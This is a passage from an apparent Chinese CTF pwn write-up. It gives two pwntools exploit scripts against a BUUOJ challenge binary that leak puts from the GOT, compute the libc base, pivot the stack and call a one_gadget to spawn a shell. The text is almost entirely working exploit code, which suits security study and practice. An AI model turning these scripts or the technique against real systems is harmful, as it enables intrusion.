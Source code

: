 ```python

puts_addr=u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))
print(hex(puts_addr))

libc_base=puts_addr-libc.symbols['puts']
#yuancheng 0x4527a
one_gadget=libc_base+0x4527a

#bendi
#one_gadget=libc_base+0x4f302
print(hex(libc_base))
payload='admin\x00\x00\x00'*3+p64(one_gadget)
p.sendafter('>',payload)

payload='admin\x00\x00\x00'*4+p64(0x602400+0x18)#迁移到one_gadget
p.sendafter('>',payload)

p.interactive()
```



下面这个是第一次只输入admin，第二次同时布置one_gadget和控制rbp的exp。可以看出来，这个exp和上面的区别也仅仅是最后一点不一样。

```python
#coding:utf-8
from pwn import *
from LibcSearcher import *

context(arch='amd64',os='linux',log_level='debug')
e=ELF('./a')
p=process('./a')
p=remote('node4.buuoj.cn',26765)
#libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')
libc=ELF('libc.so.6')
#gdb.attach(p)

puts_plt_addr=e.plt['puts']
puts_got_addr=e.got['puts']
pop_rdi_ret=0x401ab3
call_puts_addr=0x4018B5
payload='admin\x00\x00\x00'+p64(pop_rdi_ret)+p64(puts_got_addr)+p64(call_puts_addr)
pause()
p.sendafter('>',payload)
payload='admin\x00\x00\x00'*4+p64(0x602400)
pause()
p.sendafter('>',payload)

puts_addr=u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))
print(hex(puts_addr))

libc_base=puts_addr-libc.symbols['puts']
#yuancheng 0x4527a
one_gadget=libc_base+0x4527a

#bendi
#one_gadget=libc_base+0x4f302
print(hex(libc_base))
pause()
payload='admin\x00\x00\x00'
p.sendafter('>',payload)

payload='admin\x00\x00\x00'*3+p64(one_gadget)+p64(0x602400)
p.sendafter('>',payload)

```
